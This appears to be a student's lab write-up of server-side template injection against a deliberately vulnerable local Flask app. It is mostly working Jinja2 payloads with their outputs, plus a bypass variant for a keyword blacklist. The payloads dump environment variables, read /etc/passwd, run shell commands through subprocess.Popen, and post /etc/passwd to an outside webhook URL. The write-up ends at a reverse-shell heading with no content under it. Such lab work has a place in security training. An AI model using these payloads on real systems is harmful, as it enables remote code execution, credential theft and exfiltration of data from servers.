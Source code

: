 Q: Give unique ssti payloads for the given cases while following these conditions:
 Re-write everything above to work against this blacklist = [    "import",    "open",    "module",    "write",    "load",    "read",    "eval",    "exec",    "system",    "os",    "_",    #",    ',    "]

```
from flask import Flask, request, render_template_string

app = Flask(__name__)


@app.route("/")
def home():
    if request.args.get("c"):
        return render_template_string(request.args.get("c"))
    else:
        return "Hello, send someting inside the param 'c'!"


if __name__ == "__main__":
    app.run()
```

- ## Return the index of urllib in subclasses()
  
```http://127.0.0.1:5000/?c={{().__class__}}``` : ```<class 'tuple'>``` : class method returns the class of the object that is an empty tuple over here

```http://127.0.0.1:5000/?c={{().__class__.__base__}}``` : ```<class 'object'>```

```http://127.0.0.1:5000/?c={{().__class__.__base__.__subclasses__()}}``` : ```[<class 'type'>, <class 'async_generator'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>``` : returns all the subclasses for that object<br>

Now to get the index at which the urllib is present, we can copy the list and iterate through it or to directly run it in the browser we can use a for loop:
```
{% set subclasses = ().__class__.__base__.__subclasses__() %}
{% for i in range(subclasses|length) %}
  {% if 'urllib' in subclasses[i].__module__ %}
    {{ i }}
  {% endif %}
{% endfor %}
```
If this is our payload, then the for loop iterates through the subclasses list and prints the index wherever it finds urllib mentioned
url encoding the block we get the payload as: 
PAYLOAD:
```
%7B%25%20set%20subclasses%20%3D%20().__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20for%20i%20in%20range(subclasses%7Clength)%20%25%7D%0A%20%20%7B%25%20if%20'urllib'%20in%20subclasses%5Bi%5D.__module__%20%25%7D%0A%20%20%20%20%7B%7B%20i%20%7D%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

![image](https://github.com/poorvi1910/Web/assets/146640913/433ab890-0a54-4476-a97c-725822933382)

FOR BLACKLIST: 
```
http://127.0.0.1:5000/?c={{%20(dict.mro()[-1]|attr(%22\x5f\x5fsubclasses\x5f\x5f%22))()%20}}
```

- ##  Get name of current python flask script


- Get all the current envvars
```http://127.0.0.1:5000/?c={{config}}```: ```<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None,```
```http://127.0.0.1:5000/?c={{config.__class__}}``` : ```<class 'flask.config.Config'>```
```http://127.0.0.1:5000/?c={{config.__class__.from_envvar}}```: ```<function Config.from_envvar at 0x7facac89bf60>```
```http://127.0.0.1:5000/?c={{config.__class__.from_envvar[%22__globals__%22]}}```: ```{'__name__': 'flask.config', '__doc__': None, '__package__': 'flask', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7facac8a3190>, ...```

PAYLOAD:
```
http://127.0.0.1:5000/?c={{config.__class__.from_envvar[%22__globals__%22][%22__builtins__%22][%22__import__%22](%22os%22).environ}}
```
![image](https://github.com/poorvi1910/Web/assets/146640913/de0b5534-d6a5-41aa-9c42-c4d4493f7a61)

- ##  Read a local file

```http://127.0.0.1:5000/?c={{%20request.__class__}}``` : ```<class 'flask.wrappers.Request'>```

```http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data}}``` : ```<function Request._load_form_data at 0x7facac724680>```

```http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data.__globals__}}``` : ```{'__name__': 'flask.wrappers', '__doc__': None, '__package__': 'flask', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7facac720f90>...```

```http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data.__globals__.__builtins__}}``` : ```{'__name__': 'builtins', '__doc__': "Built-in functions, types, exceptions, and other objects.\n\nThis module provides direct access to all 'built-in'\nidentifiers of Python...```

PAYLOAD:
```
http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data.__globals__.__builtins__.open(%22/etc/passwd%22).read()%20}}
```
![image](https://github.com/poorvi1910/Web/assets/146640913/dba77ed3-b558-41bc-8740-12d3d668d256)


- ##  Run a command

```http://127.0.0.1:5000/?c={{().__class__}}``` : ```<class 'tuple'>``` : class method returns the class of the object that is an empty tuple over here

```http://127.0.0.1:5000/?c={{().__class__.__mro__[1].__subclasses__()[568]}}``` : ```<class 'subprocess.Popen'>``` : selecting the popen subprocess

```http://127.0.0.1:5000/?c={{().__class__.__mro__[1].__subclasses__()[568](%27cat%20try.py%27,%20shell=True,%20stdout=-1).communicate()}}``` :  running cat command on a python file to read it

PAYLOAD:
```
http://127.0.0.1:5000/?c={{().__class__.__mro__[1].__subclasses__()[568](%27cat%20try.py%27,%20shell=True,%20stdout=-1).communicate()}}
```
![image](https://github.com/poorvi1910/Web/assets/146640913/a516db8b-213f-4e58-8650-585cac3a95de)

- ##  Send the contents of etc pass to  awebhook

Sending post request: ```http://127.0.0.1:5000/?c={{ config.__class__.from_envvar["__globals__"]["__builtins__"]["__import__"]('requests')['post']['__call__']```

To read file : ```request.__class__.__init__.__globals__.__builtins__.open.__call__("/etc/passwd").read()```

Final result : ```<Response [200]>```

PAYLOAD:
```
http://127.0.0.1:5000/?c={{ config.__class__.from_envvar["__globals__"]["__builtins__"]["__import__"]('requests')['post']['__call__']('https://webhook-test.com/862d0fdb235354934d78409cb297c53c', data={'file': request.__class__.__init__.__globals__.__builtins__.open.__call__("/etc/passwd").read()}) }}
```
![image](https://github.com/poorvi1910/Web/assets/146640913/65bde4dc-928b-423c-9fc8-48ca1d5ecbe1)

- ##  Create a reverse shell, save your work and run the command yes on the rev shell


